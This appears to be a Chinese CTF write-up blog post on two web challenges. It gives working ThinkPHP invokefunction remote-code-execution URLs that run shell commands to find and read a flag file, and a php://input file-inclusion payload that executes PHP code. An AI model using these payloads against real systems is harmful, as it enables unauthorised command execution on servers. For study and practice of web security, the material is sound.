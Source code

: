 ![image-20210304141634067](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804362.png)

## 3.php_rce

何谓rce?

***RCE***英文全称:remote command/code execute,远程指令/代码执行

![image-20210304142110418](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804323.png)

**遇到一个完整的框架，就要去搜一下它存在什么漏洞**

还不会分析漏洞……但也没关系，百度到一个payload

![image-20210304143659962](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804224.png)

修改一下

[http://111.200.241.244:57782/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find%20/%20-name%20%22flag%22](http://111.200.241.244:57782/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find%20/%20-name%20%22flag%22)

找到了再cat flag

[http://111.200.241.244:57782/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag](http://111.200.241.244:57782/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag)

![image-20210304144403524](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804704.png)

## 4.Web_php_include

看到代码：

![image-20210304151733263](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804577.png)

**php中，`include` 语句包含并运行指定文件**

关于php伪协议，具体可以阅读https://segmentfault.com/a/1190000018991087和https://www.cnblogs.com/-mo-/p/11736445.html

这里列出两点：

### 1.`php://input`用于**执行php代码**

`php://` 用于访问各个输入/输出流（I/O streams）PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符，
内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

示例：

`php://input + [POST DATA]`执行php代码

```
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php phpinfo(); ?>
```
